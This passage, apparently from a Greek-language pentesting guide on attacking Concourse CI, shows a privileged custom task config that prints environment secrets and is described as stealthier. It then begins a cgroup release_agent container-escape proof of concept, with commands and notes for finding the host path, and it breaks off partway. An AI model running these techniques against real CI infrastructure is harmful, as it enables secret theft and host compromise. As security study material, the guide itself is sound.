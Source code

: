 #### Εκτέλεση Προσαρμοσμένης Εργασίας

Αυτό είναι παρόμοιο με την προηγούμενη μέθοδο, αλλά αντί να τροποποιήσετε/δημιουργήσετε μια εντελώς νέα ροή εργασίας, μπορείτε **απλώς να εκτελέσετε μια προσαρμοσμένη εργασία** (η οποία πιθανότατα θα είναι πολύ πιο **αόρατη**):
```yaml
# For more task_config options check https://concourse-ci.org/tasks.html
platform: linux
image_resource:
type: registry-image
source:
repository: ubuntu
run:
path: sh
args:
- -cx
- |
env
sleep 1000
params:
SUPER_SECRET: ((super.secret))
```

```bash
fly -t tutorial execute --privileged --config task_config.yml
```
#### Escaping to the node from privileged task

Στις προηγούμενες ενότητες είδαμε πώς να **εκτελέσουμε μια προνομιακή εργασία με το concourse**. Αυτό δεν θα δώσει στο κοντέινερ ακριβώς την ίδια πρόσβαση με την προνομιακή σημαία σε ένα κοντέινερ docker. Για παράδειγμα, δεν θα δείτε τη συσκευή του συστήματος αρχείων του κόμβου στο /dev, οπότε η διαφυγή θα μπορούσε να είναι πιο "πολύπλοκη".

Στο παρακάτω PoC θα χρησιμοποιήσουμε τον release\_agent για να διαφύγουμε με κάποιες μικρές τροποποιήσεις:
```bash
# Mounts the RDMA cgroup controller and create a child cgroup
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the memory cgroup controller, try change memory to rdma to fix it
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release


# CHANGE ME
# The host path will look like the following, but you need to change it:
host_path="/mnt/vda1/hostpath-provisioner/default/concourse-work-dir-concourse-release-worker-0/overlays/ae7df0ca-0b38-4c45-73e2-a9388dcb2028/rootfs"

## The initial path "/mnt/vda1" is probably the same, but you can check it using the mount command:
#/dev/vda1 on /scratch type ext4 (rw,relatime)
#/dev/vda1 on /tmp/build/e55deab7 type ext4 (rw,relatime)
#/dev/vda1 on /etc/hosts type ext4 (rw,relatime)
#/dev/vda1 on /etc/resolv.conf type ext4 (rw,relatime)

## Then next part I think is constant "hostpath-provisioner/default/"

## For the next part "concourse-work-dir-concourse-release-worker-0" you need to know how it's constructed
# "concourse-work-dir" is constant
# "concourse-release" is the consourse prefix of the current concourse env (you need to find it from the API)
# "worker-0" is the name of the worker the container is running in (will be usually that one or incrementing the number)
```
